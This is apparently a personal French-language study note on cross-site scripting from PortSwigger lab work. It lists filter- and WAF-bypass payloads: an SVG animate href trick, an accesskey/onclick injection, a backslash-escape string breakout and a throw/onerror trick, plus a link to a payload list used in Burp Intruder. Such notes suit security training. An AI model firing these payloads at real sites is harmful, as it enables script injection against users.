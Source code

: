 XSS: 

essayer d’abord une balise simple script ou html.

Si il y a des filtres de baliser essayer ce genre de payload:


surligné = le payload ajouté sur BURP SUITE repeater

		                                    	—------------------------------------------------------
payload pas mal quand les event handlers et attributs href sont sont boqués,


à mettre directement dans l’url, le voici non encodé: 

```
<svg>
<a>
<animate attributeName=href values=javascript:alert(1) />
<text x=20 y=20>Click me</text>
</a> 

```

                                        	—------------------------------------------------------

pour un lab particulier j’ai utilisé une liste de payload: https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt

que j’ai mis dans burp intruder, j’ai checké les seuls status 200 et essayé directement dans la webApp, attention aux nombres de requêtes ? 


                                        	—------------------------------------------------------

XSS très intéréssante sur ce Lab: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag 

l'idée est de rediriger avec une accesskey qui déclenche l'XSS. 

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1) lien du lab avec l'access key encoded


                                        	—------------------------------------------------------

Certaines applications tentent d'empêcher l'intrusion de données hors de la chaîne JavaScript en échappant tout caractère d'apostrophe avec un antislash. Un antislash devant un caractère indique au parseur JavaScript que le caractère doit être interprété littéralement et non comme un caractère spécial tel qu'un terminateur de chaîne. Dans cette situation, les applications font souvent l'erreur de ne pas échapper le caractère antislash lui-même. Cela signifie qu'un attaquant peut utiliser son propre caractère antislash pour neutraliser celui ajouté par l'application.

ce payload : `';alert(document.domain)//`

devient: `\';alert(document.domain)//`

donc on peut utiliser ce genre de payload: `\';alert(document.domain)//`

pour qu'il soit interprété ainsi: `\\';alert(document.domain)//`

                                        	—------------------------------------------------------

utilisation de `throw` pour l'XSS pour éviter le filtre WAF: 


`x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'`
